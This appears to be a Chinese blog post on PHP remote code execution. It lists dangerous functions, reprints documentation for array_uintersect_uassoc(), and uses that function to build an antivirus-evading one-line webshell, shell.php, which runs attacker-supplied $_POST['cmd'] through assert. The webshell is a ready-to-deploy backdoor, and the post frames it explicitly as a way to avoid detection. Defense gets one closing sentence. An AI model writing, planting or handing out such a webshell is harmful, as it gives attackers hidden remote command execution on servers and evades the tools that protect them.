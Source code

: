 ```yaml
---
layout: post
title:  "远程命令执行漏洞"
categories: Remote code execution
tags:  Remote 一句话木马
author: Hannoch
---
```


* content
{:toc}

前言
	远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函
数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变
$PATH（变量）或程序执行环境的其他方面来执行一个恶意构造的代码。
来源：百度百科
# 远程代码执行原理
	客户端向服务器发送恶意请求，该请求内容中有服务器端可执行的代码，服务器端接收请求后未
对来源数据做出过滤/拦截操作，从而造成代码执行漏洞。

# 远程代码执行常见点

```php
eval()
preg_replace("//e",$_GET['h'],"");
array_map()
usort(),uasort(),uksort()
array_filter()
array_reduce()
array_diff_uassoc(),array_diff_ukey()
array_udiff(),array_udiff_assoc(),
array_udiff_uassoc()
array_intersect_assoc(),array_intersect_uassoc()
array_uintersect(),array_uintersect_assoc(),
array_uintersect_uassoc()
array_walk(),array_walk_recursive()
xml_set_character_data_handler()
xml_set_default_handler()
xml_set_element_handler()
ob_start()
unserialize()
xml_set_end_namespace_decl_handler()
xml_set_external_entity_ref_handler()
xml_set_notation_decl_handler()
xml_set_processing_instruction_handler()
xml_set_start_namespace_decl_handler()
xml_set_unparsed_entity_decl_handler()
stream_filter_register()
set_error_handler()
register_shutdown_function()
register_tick_function()
assert()
```

# 生僻函数免杀一句话
[PHP array_uintersect_uassoc() 函数](http://www.w3school.com.cn/php/func_array_uintersect_uassoc.asp)
比较两个数组的键名和键值（使用用户自定义函数进行比较），并返回交集（匹配）：

```php
<?php
function myfunction_key($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

function myfunction_value($a,$b)
{
if ($a===$b)
  {
  return 0;
  }
  return ($a>$b)?1:-1;
}

$a1=array("a"=>"red","b"=>"green","c"=>"blue");
$a2=array("a"=>"red","b"=>"green","c"=>"green");

$result=array_uintersect_uassoc($a1,$a2,"myfunction_key","myfunction_value");
print_r($result);
?>
```
语法
`array_uintersect_uassoc(array1,array2,array3...,myfunction_key,myfunction_value)`
参数	描述
**array1** 必需。与其他数组进行比较的第一个数组。
**array2**	必需。与第一个数组进行比较的数组。
**array3,...**	可选。与第一个数组进行比较的其他数组。
** myfunction_key ** 必需。用于比较数组键名的用户自定义函数的名称。

定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

** myfunction_value ** 必需。用于比较数组键值的用户自定义函数的名称。

定义可调用的比较函数。如果第一个参数小于等于或大于第二个参数，则比较函数必须返回小于等于或大于 0 的整数。

使用用户自定义的回调函数 myfunction_key 和 myfunction_value 来计算两个或多个数组的交集（即在 array1 中存在，同时也在其它任何数组中存在的所有数组元素），并返回结果数组。

同时进行键名和键值的比较，如 "a"=>1 和 "b"=>1 这两个元素是不相等的。

myfunction_key 指定的函数用于比较键名是否相等。myfunction_value 指定的函数用于比较键值是否相等。这两个函数都带有两个将进行比较的参数。如果第一个参数小于第二个参数，则函数返回一个负数，如果两个参数相等，则要返回 0，如果第一个参数大于第二个，则返回一个正数。

返回的数组中键名保持不变。

生成我们的一句话木马
shell.php
```php
$a1=array($_POST['cmd']);
$a2=array($_POST['cmd']);
$result=array_uintersect_uassoc($a1,$a2,"assert","assert");
```

防护：在开发中尽量不要使用危险函数，输入的变量一定要进行过滤。
